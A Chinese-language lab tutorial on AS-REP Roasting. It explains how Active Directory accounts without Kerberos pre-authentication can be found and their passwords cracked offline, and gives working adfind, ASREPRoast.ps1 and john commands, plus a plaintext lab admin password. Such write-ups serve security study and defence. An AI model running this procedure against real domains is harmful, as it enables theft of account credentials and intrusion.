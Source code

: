# AS-REP Roasting 离线爆破攻击

as-req Roasting 攻击的原理就是当我们收到 as-rep 报文后，我们使用密码字典生成多个 hash 来解密 Logon Session Key ，如果成功则爆破出用户密码。

- 域控：192.168.72.163
- 攻击者：192.168.72.162
- 域：hacker.com

针对一个域内用户，其账户选项有个设置叫作 “不要求 kerberos 预身份验证”，它默认是关闭的。

![image-20241221182825268](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241221182825268.png)

当 “不要求 kerberos 预身份验证” 选项被勾选，会出现以下效果：

- as-req 报文中不需要添加用户 hash 加密的时间戳，自动返回 as-rep 报文。
- 如果用户能使用用户 hash 解密 as-rep 报文中的 Logon Session Key ，那么代表用户凭据正确。

as-req Roasting攻击的原理就是当我们收到 as-rep 报文后，我们使用密码字典生成多个 hash 来解密 Logon Session Key ，如果成功则爆破出用户密码。

### 查询 “不要求 kerberos 预身份验证” 的域用户

工具：**adfind**

```
在域外：
adfind -h [dc_ip:dc_port] -u [domain_name\user_name] -up [password] -f "useraccountcontrol:1.2.840.113556.1.4.803:=4194304" -dn
​
[dc_ip:dc_port]：表示域控ip和端口号
[username\domain_name]：表示用户及所在的域
[password]：表示用户的密码
-f：过滤条件为useraccountcontrol:1.2.840.113556.1.4.803:=4194304
-dn：表示显示结果属性为dn

AdFind -h 192.168.72.163:389 -u hacker.com\administrator -up p-0p-0p-0p -f "useraccountcontrol:1.2.840.113556.1.4.803:=4194304" -dn
```

![image-20241221184241987](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241221184241987.png)

### 向 “不要求 kerberos 预身份验证” 的域用户发起 as-req 请求

工具：**ASREPRoast.ps1**，项目地址：https://github.com/HarmJ0y/ASREPRoast/blob/master/ASREPRoast.ps1

```
Import-Module .\ASREPRoast.ps1 
Get-ASREPHash -UserName [username] -Domain [domain_name] -Server [dc_ip] | Out-File -Encoding ASCII hash.txt

Import-Module .\ASREPRoast.ps1 
Get-ASREPHash -UserName administrator -Domain hacker.com -Server 192.168.72.163 | Out-File -Encoding ASCII hash.txt
```

![image-20241221190724869](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241221190724869.png)

### 离线爆破

工具：**john**

```
john --wordlist=[passwords_file] hash.txt
```

```
john --wordlist=/tmp/password.txt /tmp/hash.txt
```

![image-20241221191127338](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E6%B8%97%E9%80%8F/images/image-20241221191127338.png)